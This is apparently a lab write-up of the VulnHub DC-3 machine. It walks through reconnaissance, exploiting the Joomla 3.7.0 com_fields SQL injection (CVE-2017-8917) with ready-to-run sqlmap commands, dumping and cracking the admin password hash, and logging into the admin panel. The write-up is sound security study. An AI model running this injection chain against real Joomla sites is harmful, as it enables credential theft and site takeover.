

> **靶机来源：** VulnHub - DC-3  
> **渗透环境：** Kali Linux + VirtualBox  
> **目标 CMS：** Joomla 3.7.0  
> **漏洞编号：** CVE-2017-8917（com_fields SQL 注入）

***

## 1. 环境配置

### 1.1 靶机安装

安装 DC-3 靶机后，需修改网卡配置并设置光盘驱动器：

```bash
# 将 IDE 控制器设为 0:0
# 确保与攻击机在同一 NAT 网段
```


### 1.2 网络拓扑

| 角色 | IP |
|------|----|
| 攻击机 (Kali) | 192.168.0.112 |
| 靶机 (DC-3) | 192.168.0.108（需探测） |

***

## 2. 信息收集

### 2.1 主机发现

```bash
arp-scan -l
# 或
netdiscover -r 192.168.0.0/24
```


### 2.2 端口扫描

```bash
nmap -sV -sC -p- -T4 192.168.0.108
```


**发现：** 80/tcp — Apache HTTPD

### 2.3 Web 侦察

访问主页，确认站点使用 **Joomla CMS**。


### 2.4 JoomScan 版本探测

JoomScan 是 Joomla 专用扫描器，可快速识别版本和漏洞：

```bash
# 安装
apt install joomscan

# 扫描
sudo joomscan -u http://192.168.0.108
```


**结果：Joomla 3.7.0**


***

## 3. 漏洞利用

### 3.1 公开漏洞搜索

```bash
searchsploit joomla 3.7.0
```


### 3.2 提取利用脚本

```bash
searchsploit -m 42033
```

该 exp 对应 **CVE-2017-8917**：Joomla 3.7.0 `com_fields` 组件 SQL 注入，可直接获取 session 或进行数据枚举。


### 3.3 SQLMap 自动化注入

不使用 exp 脚本，改用 SQLMap 直接进行数据枚举：

```bash
sqlmap -u \
"http://192.168.0.108/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" \
--risk=3 --level=5 --random-agent \
--dbs -p list[fullordering] --batch
```

**参数说明：**

| 参数 | 含义 |
|------|------|
| `--risk=3` | 高风险测试（含 OR 更新） |
| `--level=5` | 最深探测范围 |
| `--random-agent` | 随机 UA 头躲避检测 |
| `--dbs` | 枚举数据库 |
| `-p` | 指定注入参数 |
| `--batch` | 自动确认（非交互） |


### 3.4 数据库枚举

```bash
# 查看数据库
sqlmap -u "..." --risk=3 --level=5 --random-agent \
  -D joomladb --tables -p list[fullordering] --batch
```


### 3.5 users 表字段爆破

```bash
# 爆字段（表名含特殊字符需手动确认）
sqlmap -u "..." --risk=3 --level=5 --random-agent \
  -D joomladb -T users --columns -p list[fullordering]
```

> 表名含特殊字符时，去掉 `--batch`，爆破提示时选 `y` 使用默认字典。


### 3.6 获取凭据

```bash
# 导出 username 和 password
sqlmap -u "..." --risk=3 --level=5 --random-agent \
  -D joomladb -T users -C username,password --dump -p list[fullordering]
```


***

## 4. 密码破解

将获取到的账号密码 hash 以 `用户名:hash` 格式存入文件：

```bash
echo "admin:\$2y\$10\$..." > /tmp/dc3_hashes.txt
```

使用 John the Ripper 破解：

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt /tmp/dc3_hashes.txt
```


**破解成功，密码：`snoopy`**

***

## 5. 后台登录

使用 `admin:snoopy` 登录 Joomla 后台 `/administrator`：


---

## 渗透链路总结



## 核心知识点

- JoomScan 专用 CMS 扫描器的使用
- CVE-2017-8917：Joomla 3.7.0 com_fields SQL 注入
- SQLMap 高参数注入（`--risk=3 --level=5`）应对复杂场景
- 表名含特殊字符时的交互式爆破技巧
- John the Ripper 离线 hash 破解
- 从信息收集到后台登录的完整渗透链

---

> 本文为个人安全学习记录，所有操作均在授权靶场环境中进行。
